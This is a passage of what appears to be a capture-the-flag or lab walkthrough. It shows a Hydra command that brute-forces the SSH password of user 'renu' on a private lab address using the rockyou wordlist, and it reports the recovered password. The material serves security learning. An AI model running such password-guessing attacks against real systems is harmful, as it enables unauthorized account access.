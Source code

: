 # Hydra

Assuming that we have a username `renu` and the password is too weak, we can try to bruteforce the password using the `rockyou` password file using the `SSH` service.

```
$sudo hydra -l renu -P /home/pranavarao/Pranava__Rao/Tools/Word-List/rockyou.txt ssh://192.168.0.7
```

![Pasted image 20231120152035](https://github.com/Rao-Pranava/Money-Box/assets/93928268/ff984a48-6f7d-40c2-acb9-e3065076c8b9)


We found the password of the user! The password is `987654321`, we can try to `SSH` into the machine.
